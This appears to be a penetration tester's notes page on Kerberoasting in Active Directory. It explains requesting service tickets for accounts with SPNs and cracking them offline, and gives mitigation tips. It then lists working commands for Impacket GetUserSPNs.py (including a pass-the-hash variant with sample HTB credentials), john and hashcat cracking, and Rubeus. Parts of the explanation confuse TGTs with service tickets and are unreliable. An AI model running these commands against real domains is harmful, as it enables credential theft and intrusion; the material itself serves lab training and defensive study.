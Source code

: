 # Kerberoasting

## Introduction

Kerberos encrypts Ticket Granting Tickets (TGTs) that are provided from the Domain Controller (DC) -- Which typically acts as the Key Distribution Center (KDC) against a user's Kerberos hash. <mark style="color:red;">Kerberoasting</mark> means that <mark style="color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

Note: You NEED valid credentials inside the domain to perform this attack.

## High-Level Understanding

<figure><img src="../.gitbook/assets/image (2) (1) (6).png" alt=""><figcaption></figcaption></figure>

* It is important that we focus on the <mark style="color:yellow;">KRB-TGS-REQ</mark> and <mark style="color:yellow;">KRB-TGS-REP</mark>
* With the <mark style="color:yellow;">REQ portion</mark>, you are requesting the TGT from the TGS
* With the <mark style="color:yellow;">REP portion</mark>, you are obtaining the <mark style="color:yellow;">TGT reply</mark> that is <mark style="color:yellow;">encrypted with the NTLM hash</mark> of the account that the service is running under&#x20;
  * This is typically a <mark style="color:yellow;">SPN</mark>
  * What does this look like?&#x20;
    * <mark style="color:yellow;">mssql\_svc</mark>
    * <mark style="color:yellow;">MSSQL/sql1@htb.local</mark>
    * <mark style="color:yellow;">Service/hostname@domain</mark>
* You can then take the NTLM hash offline (obtained from the Kerberos TGT Reply message) and crack it
* You can <mark style="color:yellow;">execute this attack remotely or locally</mark> as long as you have <mark style="color:yellow;">valid account credentials</mark>

### Mitigation Strategies

* Since kerberoasting takes advantage of the pure nature of Kerberos, there is no official mitigation strategy for it, simply recommendations
* Therefore, enforcing strong and complex passwords throughout your domain is the best way to mitigate this threat
* Rotate these credentials often; expiration times
* Make sure your service accounts are using the least privilege possible
  * Do NOT put these accounts in the domain admins group

## How To

### Get-UserSPNs.py

* Check if the user has a SPN with the following command:

```python
Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

# The SPN will appear as RESEARCH/web_svc.search.htb:60001
# You will also get a hash, save it and crack with John

john --wordlist=/usr/share/wordlists/rockyou.txt hash

# Or Hashcat

hashcat -m 13100 -a 0 kerberoast.txt /usr/share/wordlists/rockyou.txt
# -a 0 -- Execute dictionary attack against provided details with specified wordlist
```

```
# Domain Account/Credentials Method
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

# Domain Account/Credentials Method w/ Pass The Hash
GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Grepping for Hashcat Formats

```
hashcat --help | grep etype
```

### Rubeus

```
Rubeus.exe kerberoast
```

## Reference

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}
